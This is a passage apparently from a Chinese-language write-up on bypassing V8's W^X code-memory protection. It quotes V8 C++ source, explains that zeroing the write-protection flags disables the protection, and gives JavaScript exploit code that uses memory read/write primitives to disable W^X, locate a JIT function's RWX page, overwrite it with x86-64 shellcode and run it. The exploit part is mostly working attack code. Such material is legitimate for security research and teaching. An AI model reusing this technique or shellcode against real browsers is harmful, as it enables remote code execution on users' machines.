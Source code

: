 ```c++
void CodeSpaceWriteScope::SetWritable() {
  if (WasmCodeManager::MemoryProtectionKeysEnabled()) {
    RwxMemoryWriteScope::SetWritable();
  } else if (v8_flags.wasm_write_protect_code_memory) {
    current_native_module_->AddWriter();
  }
}
```

```c++
bool WasmCodeManager::MemoryProtectionKeysEnabled() {
  return HasMemoryProtectionKeySupport() &&
         v8_flags.wasm_memory_protection_keys;
}
```

```c++
WasmCodeAllocator::WasmCodeAllocator(std::shared_ptr<Counters> async_counters)
    : protect_code_memory_(!V8_HAS_PTHREAD_JIT_WRITE_PROTECT &&
                           v8_flags.wasm_write_protect_code_memory &&
                           !WasmCodeManager::MemoryProtectionKeysEnabled()),
      async_counters_(std::move(async_counters)) {
  owned_code_space_.reserve(4);
}
```

将 `wasm_write_protect_code_memory` 覆盖为 0 能够禁用该保护，从而实现绕过。

另外还有一个方法，笔者最先接触到的也是该方法：覆盖 `write_protect_code_memory_` 为 0。

不过该标志主要用于保护 JIT 优化代码，它不直接通过 WASM 去生成代码段：

```js
    function jit(a) {
        var sum = 0;
        if (a[1] == 15) {
            sum += 5;
        }
        for (var i = 0; i < a[1]; i++) {
            sum += 10;
        }
        return a[0] + sum;
    }
	// Set `write_protect_code_memory_` to false (disable W^X)
	stableWrite(0xa070, 0, false);
	// Compile a JIT function, which will create RWX memory
	compile();
	
	var jit_function_addr = stableAddrOf(jit);
	var RWX_PAGE = stableRead32(jit_function_addr + 0x18, true);
	var assembly_offset = RWX_PAGE + 0x40;
	var shellcode = [0x010101010101b848n, 0x62792eb848500101n, 0x0431480101626d60n, 0x2f7273752fb84824n, 0x68e78948506e6962n, 0x012434810101303bn, 0x534944b848010101n, 0xd231503d59414c50n, 0x52e201485a086a52n, 0x010101b848e28948n, 0xb848500101010101n, 0x0101626d6062792en, 0x752fb84824043148n, 0x31506e69622f7273n, 0xe601485e086a56f6n, 0x0f583b6ae6894856n, 0x0000000090909005n];
	for (var i = 0; i < shellcode.length; i++) {
		stableWrite(assembly_offset + (8 * i), shellcode[i], true);
	}
	
	jit([1, 15]);
```
